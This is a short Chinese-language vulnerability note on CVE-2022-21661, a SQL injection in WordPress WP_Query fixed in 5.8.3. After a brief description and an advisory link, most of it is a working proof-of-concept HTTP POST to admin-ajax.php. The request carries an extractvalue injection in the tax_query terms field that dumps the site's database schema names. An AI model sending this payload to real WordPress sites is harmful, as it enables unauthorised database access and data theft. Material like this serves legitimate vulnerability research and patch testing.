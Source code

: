 # WordPress WP_Query SQL 注入漏洞 CVE-2022-21661

## 漏洞描述

`WordPress`是一个用`PHP`编写的免费开源内容管理系统，由于`clean_query`函数的校验不当，导致了可能通过插件或主题以某种方式从而触发`SQL`注入的情况。这已经在`WordPress5.8.3`中进行了修复。影响版本可以追溯到`3.7.37`。

参考链接：

- https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-6676-cqfm-gw84

## 漏洞影响

```
WordPress < 5.8.3
```

## 漏洞POC

获取数据库名：

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 130

action=test&data={"tax_query":[{"field":"term_taxonomy_id","terms":["1) and extractvalue(rand(),concat(0x5e,(select group_concat(schema_name) from information_schema.SCHEMATA)))#"]}]}
```

![image-20220623160952210](./images/202206231609284.png)
